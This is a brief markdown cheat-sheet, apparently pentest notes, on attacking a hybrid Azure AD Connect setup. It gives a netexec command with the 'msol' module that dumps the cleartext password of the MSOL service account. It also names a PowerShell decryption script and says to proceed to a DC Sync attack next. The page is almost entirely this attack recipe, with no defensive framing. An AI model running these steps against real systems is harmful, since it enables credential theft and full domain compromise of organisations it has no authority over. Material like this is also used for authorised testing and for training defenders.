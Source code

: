 # Hybrid Environment (Azure AD Connect)

## Tools: CrackMapExec/Netexec 

#### 1) Dump cleartext password of MSOL Account on AAD Connect server

    netexec smb IP -u USER -p PASSWORD -M msol

    azuread_decrypt_msol_v2.ps1

### After that, you may proceed to DC Sync
